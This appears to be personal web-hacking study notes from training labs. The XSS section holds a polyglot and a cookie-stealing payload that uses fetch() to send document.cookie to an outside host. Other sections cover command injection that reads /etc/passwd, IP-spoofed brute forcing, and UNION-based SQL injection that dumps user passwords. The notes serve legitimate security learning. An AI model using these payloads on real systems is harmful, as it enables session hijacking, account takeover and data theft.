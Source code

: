 ## XSS
- Cross-Site Scripting
- test: parameters, URL File Path, HTTP Headers
- in js onload event within a tag
- Polyglot: jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
- Payload for shell: </textarea><script>fetch('http://{URL_OR_IP}?cookie=' + btoa(document.cookie) );</script>
-                    </textarea><script>fetch('http://10.8.80.130:1234?cookie=' + btoa(document.cookie) );</script> 

## Command injection
- blind: no output, test with ping/sleep/timeout(win) || force output > etwas
  - curl http://website/command
- verbose: output/feedback
- $payload = "\x2f\x65\x74\x2f\x70\x61\x73\x73\x77\x64"

## Authentication
- Brute force: 
  - in Header ==> **X-Forwarded-For**: [IP] ==> avoid IP blocking
  - intercalate correct login AND brute force (intruder)

- Blocked account
  - enumerate username until valid one ==> NULL payload for password + several tries until get different response
  - try password with these usernames ==> grep warning for incorrect passwords

## database
### Steps
- find vulnerability: ', "
- find total columns: UNION SELECT NULL,NULL,NULL
- find name of db: UNION SELECT NULL,NULL,database()
- find tables: UNION SELECT NULL,NULL,table_name from **information_schema.tables** WHERE table_schema = 'DB name'
- find columns in table: UNION SELECT NULL,NULL,column_name FROM **information_schema.columns** WHERE table_name= 'Table name'
- find data: UNION SELECT NULL,NULL,group_concat(column,column,column) from table_nae

- Column_name known
  - aa' field=(COMMAND),field='

- Bypass login: 
  - admin'-- [everything here is a comment and will be ignored]
  - or 1 = 1'-- ==> will always return true
  - header:  X-Forwarded-For: IP

### UNION
- join two or more tables + number o columns and data type muss be equal
- 'UNION SELECT NULL,NULL...-- - ==> until success to find number of columns
  - NULL = compatible with all data type
- 'UNION SELECT column1,column2 FROM table_name-- -
- find db = '0 union 1,2,database()-- -
- find tables = '0 union select  1,2,group_concat(table_name) FROM information_schema.tables where table_schema='db_name'
  -  information_schema = info about all databases and tables
- find columns: 0 union select  1,2,group_concat(column_name) FROM information_schema.columns where table_name= 'table_name'-- -
- content: '0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
